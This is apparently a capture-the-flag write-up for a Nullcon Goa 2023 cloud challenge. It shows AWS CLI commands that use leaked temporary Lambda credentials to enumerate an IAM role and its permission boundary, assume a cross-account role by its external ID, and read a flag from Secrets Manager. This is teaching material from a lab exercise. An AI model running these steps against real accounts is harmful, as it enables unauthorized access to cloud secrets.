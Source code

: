```yaml
---
title: Nullcon GOA 2023 - Cloud Writeup
date: 2023-08-20
subtitle: 
tags: [cloud]
---
```


![](/images/ctfs/nullcon23/cloud01.png)

Upon accessing the URL of the provided lambda function in the challenge, we obtain an `aws_access_key_id`, an `aws_secret_access_key`, and an `aws_session_token`. These can serve as temporary credentials, enabling the execution of diverse actions on AWS via the AWS CLI. To preserve these credentials, they can be stored within the `~/.aws/credentials` file, subsequently establishing a default profile for accessing various stuff in the corresponding AWS account.

```bash
[default]
aws_access_key_id = redacted

aws_secret_access_key = redacted

aws_session_token=redacted

```
Let's get started by fetching details about the IAM entity corresponding to these credentials.

```bash
aws sts get-caller-identity
```
![](/images/ctfs/nullcon23/cloud02.png)

This gives us the role name `role_for-lambda-to-assume-role`. Let's proceed by retrieving some information about this role.

```sh
aws iam get-role --role-name role_for-lambda-to-assume-role
```

![](/images/ctfs/nullcon23/cloud03.png)

Here, we quickly spot that there's a permission boundary attached to this role.
```json
"PermissionsBoundary": {
    "PermissionsBoundaryType": "Policy",
    "PermissionsBoundaryArn": "arn:aws:iam::743296330440:policy/permission-boundary_restrict-assumptions"
}
```
According to AWS docs, a permission boundary uses an AWS or customer managed policy to restrict access to resources that can be accessed by an IAM entity. It is nothing but a policy. We can view information about this policy through its ARN by running the following command.

```sh
aws iam get-policy --policy-arn arn:aws:iam::743296330440:policy/permission-boundary_restrict-assumptions
```

![](/images/ctfs/nullcon23/cloud04.png)


The version id holds paramount significance in this response. This version id can be utilized in conjunction with the policy arn to extract the policy document.
```json
{
    "Policy": {
        "PolicyName": "permission-boundary_restrict-assumptions",
        ....
        ....
        "DefaultVersionId": "v9",
        ....
        ....
        
    }
}
```
```sh
aws iam get-policy-version --policy-arn arn:aws:iam::743296330440:policy/permission-boundary_restrict-assumptions --version-id v9
```

This gives us the actual policy document represented by the permission boundary.
```json
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Sid": "VisualEditor1",
                    "Effect": "Allow",
                    "Action": [
                        "iam:GetRole",
                        "iam:ListAttachedRolePolicies"
                    ],
                    "Resource": [
                        "arn:aws:iam::743296330440:role/role_for-lambda-to-assume-role"
                    ]
                },
                {
                    "Sid": "VisualEditor3",
                    "Effect": "Allow",
                    "Action": [
                        "iam:GetPolicyVersion",
                        "iam:GetPolicy",
                        "iam:GetRolePolicy"
                    ],
                    "Resource": [
                        "arn:aws:iam::743296330440:policy/permission-boundary_restrict-assumptions",
                        "arn:aws:iam::743296330440:policy/policy_role-lambda-sts-assume-all"
                    ]
                },
                {
                    "Sid": "VisualEditor2",
                    "Effect": "Allow",
                    "Action": "sts:AssumeRole",
                    "Resource": "arn:aws:iam::*:role/role_to_secretsmanager_read_flag",
                    "Condition": {
                        "StringEquals": {
                            "sts:ExternalId": "nullcon-external-id"
                        }
                    }
                }
            ]
        },
        "VersionId": "v9",
        "IsDefaultVersion": true,
        "CreateDate": "2023-08-17T20:54:35Z"
    }
}
```

In this context, it is evident that the policy grants permission for sts:AssumeRole on the specified resource `arn:aws:iam::*:role/role_to_secretsmanager_read_flag`, contingent upon the condition that the external id is set to `nullcon-external-id`. Now, let's carry out this operation within the account provided in the challenge description, namely `562778112707`.

```bash
aws sts assume-role --role-arn "arn:aws:iam::562778112707:role/role_to_secretsmanager_read_flag" --role-session-name lambda --external-id nullcon-external-id
```
![](/images/ctfs/nullcon23/cloud05.png)

This gives us a new set of temporary credentials. We can save this information in `~/.aws/credentials` and create a new profile, let's say `shady`.

```
[shady]
aws_access_key_id = some_key_id
aws_secret_access_key = some_key
aws_session_token = some_token

```

Finally, let's read the secrets from AWS Secrets Manager by using the information provided in the challenge description.
```sh
aws --profile shady secretsmanager get-secret-value --secret-id secret-flag-Educated-Assumption --region eu-central-1
```
![](/images/ctfs/nullcon23/cloud06.png)


